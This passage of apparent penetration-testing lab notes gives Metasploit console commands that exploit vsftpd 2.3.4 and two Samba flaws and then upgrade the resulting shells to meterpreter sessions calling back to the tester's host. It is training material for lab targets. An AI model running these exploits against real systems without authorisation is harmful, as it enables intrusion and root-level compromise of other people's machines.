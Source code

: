 > Run the script from the java shell and you'll receive a meterpreter session on the msfconsole.

#### VSFTPD Exploitation:

```msfconsole
search vsftpd
use 1
set RHOST <ip-address>
exploit
```

> Exploit module for `vsftpd 2.3.4`. It gives you rot privileges

```msfconsole
CTRIL + Z
y
use post/multi/manage/shell_to_meterpreter
show options
set LHOST <local-ip>
run
```

> It can be used to convert the shell session to a meterpreter session. If it gives an error don't worry you can access the session from the `sessions` command.

#### SAMBA Exploitation

```msfconsole
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
set RHOST <ip-address>
check
exploit
```

```msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS demo.ine.local
exploit
```

> `check` command can be used to identify whether the system is vulnerable or not. This will give us a command shell session not a meterpreter session so we would have to go it our selves using `shell_to_meterperter` module.

```msfconsole
CTRIL + Z
y
use post/multi/manage/shell_to_meterpreter
show options
set LHOST <local-ip> 
set LHOST eth1
run
```

> It can be used to convert the shell session to a meterpreter session. If it gives an error don't worry you can access the session from the `sessions` command.
